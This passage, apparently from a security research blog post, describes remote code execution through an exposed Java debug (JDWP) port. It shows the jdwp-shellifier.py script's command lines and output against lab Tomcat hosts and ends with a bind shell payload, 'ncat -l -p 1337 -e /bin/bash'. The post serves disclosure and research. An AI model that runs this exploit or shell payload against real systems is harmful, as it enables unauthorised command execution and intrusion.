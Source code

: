 4\. Get Runtime object from breakpoint contextAt this point we have almost all of the elements we need for a successful, reliable exploitation. What we are missing is a Runtime object reference. Obtaining it is easy, and we can simply execute in the JVM runtime the java.lang.Runtime.getRuntime() static method\[8] by sending a ClassType/InvokeMethod packet and providing the Runtime class and thread references. 5. Lookup and invoke exec() method in Runtime instanceThe final step is simply looking for the exec() method in the Runtime static object obtained for the previous step and invoking it (by sending a ObjectReference/InvokeMethod packet) with the String object we created in step three. [![](https://ioactive.com/wp-content/uploads/2014/04/exec.png)](https://ioactive.com/wp-content/uploads/2014/04/exec-1.png)

Et voilà !! Swift and easy. As a demonstration, let’s start a Tomcat running with JPDA “debug mode” enabled:

root@pwnbox:\~/apache-tomcat-6.0.39# ./bin/catalina.sh jpda start

We execute our script without a command to execute, to simply get general system information:

```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.9 
[+] Targeting ‘192.168.2.9:8000’
[+] Reading settings for ‘Java HotSpot(TM) 64-Bit Server VM – 1.6.0_65’
[+] Found Runtime class: id=466[+] Found Runtime.getRuntime(): id=7facdb6a8038
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’## Here we wait for breakpoint to be triggered by a new connection ##
[+] Received matching event from thread 0x8b0
[+] Found Operating System ‘Mac OS X’
[+] Found User name ‘pentestosx’
[+] Found ClassPath ‘/Users/pentestosx/Desktop/apache-tomcat-6.0.39/bin/bootstrap.jar’
[+] Found User home directory ‘/Users/pentestosx’
[!] Command successfully executed
```

Same command line, but against a Windows system and breaking on a totally different method:

```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –break-on ‘java.lang.String.indexOf’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘Java HotSpot(TM) Client VM – 1.7.0_51’
[+] Found Runtime class: id=593
[+] Found Runtime.getRuntime(): id=17977a9c
[+] Created break event id=2
[+] Waiting for an event on ‘java.lang.String.indexOf’
[+] Received matching event from thread 0x8f5
[+] Found Operating System ‘Windows 7’
[+] Found User name ‘hugsy’
[+] Found ClassPath ‘C:UsershugsyDesktopapache-tomcat-6.0.39binbootstrap.jar’
[+] Found User home directory ‘C:Usershugsy’
[!] Command successfully executed
```

We execute our exploit to spawn a bind shell with the payload “ncat -e /bin/bash -l -p 1337”, against a Linux system:

```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –cmd ‘ncat -l -p 1337 -e /bin/bash’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘OpenJDK Client VM – 1.6.0_27’
[+] Found Runtime class: id=79d
[+] Found Runtime.getRuntime(): id=8a1f5e0
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’
[+] Received matching event from thread 0x82a[+] Selected payload ‘ncat -l -p 1337 -e /bin/bash’
[+] Command string object created id:82b
[+] Runtime.getRuntime() returned context id:0x82c
[+] found Runtime.exec(): id=8a1f5fc[+] Runtime.exec() successful, retId=82d
[!] Command successfully executed Success, we now have a listening socket!
root@pwnbox:~/apache-tomcat-6.0.39# netstat -ntpl | grep 1337
```